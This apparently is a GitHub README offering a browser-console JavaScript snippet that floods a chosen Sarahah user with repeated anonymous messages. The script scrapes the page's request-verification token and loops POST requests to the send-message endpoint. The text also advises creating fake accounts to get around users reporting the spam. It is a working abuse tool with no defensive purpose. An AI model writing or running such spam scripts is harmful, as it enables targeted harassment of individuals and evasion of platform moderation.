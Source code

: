 # Spam Sarahah
Use this to spam sarahah users, because i got tired of all the sarahah statuses

##### NOTE: Sarahah allows users to report messages, so some users might not recieve messages, if you think that is the case, it is recommended that you log in your account in another tab(obviously a fake/dummy account). If that account is reported by the user too, create another ;)

## Steps
1. Open the sarahah page of the user you want to spam
2. Open `console` by pressing f12
3. Copy and paste the following script in console.
    
```    
    var number = 50;
    var message = 'hello sarahah';
    var userId = $('#RecipientId').val();
    verifTk = document.body.innerHTML.split("__RequestVerificationToken: $('")[1].split("').attr")[0];
	for(i=0;i<number;i++){
		$.ajax({
			url: '/Messages/SendMessage',
			type: 'POST',
			cache: false,
			data: {
				__RequestVerificationToken: $(verifTk).attr('value'),
				userId: userId,
				text: message
			},
			success: function () {
				console.log("posted");
			},
			error: function () {
				console.log("error");
			}
		})
	}
```

4. you will see posted in colsole, the number behind posted represents th number of times it has been posted.
5. There is no point 5, I am just adding this because a list with 5 points looks good. No, I don't have OCD.

#### Replace the top of the script with any number. the user gets the same message that number of times.
#### Replcae message with any message of your choice, but remember that the message should be placed between quotes.

